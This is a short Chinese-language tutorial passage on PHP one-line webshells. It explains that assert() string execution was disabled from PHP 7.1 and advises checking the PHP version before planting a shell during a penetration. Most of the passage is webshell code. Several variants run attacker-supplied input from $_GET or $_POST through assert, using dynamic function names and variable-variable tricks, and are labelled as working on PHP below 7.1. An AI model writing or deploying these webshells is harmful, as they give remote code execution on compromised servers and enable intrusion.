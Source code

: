 ![](img/1.png)
在php 7.2的版本说明中,对`assert()`函数传入字符串参数已经被禁用。 而这个禁用特性经过测试是从 php 7.1 版本开始的。所以现在很多马都失效了其实就是这个原因，以后渗透前先看看版本再上马。

所以如果想要执行就必须要通过以下方式执行
```php
<?php
assert($_GET['shell']);
?>
```
那和没变不还是一样吗?php你搞我。

## 最常见一句话马的多种变形

> 以下挂马均为 <7.1

**动态字符串绕过型**
```php
<?php
$a = "assert";
$a(@$_GET['shell']);
?>
```

**双$$符号绕过**
```php
<?php
$bb="assert";
$a='bb';
$$a($_POST['shell']);
?>
```
`$$a`为一个变量，`$a`的值为 bb 则 `$$a = $($a)=$bb` 等同于 `$bb` 
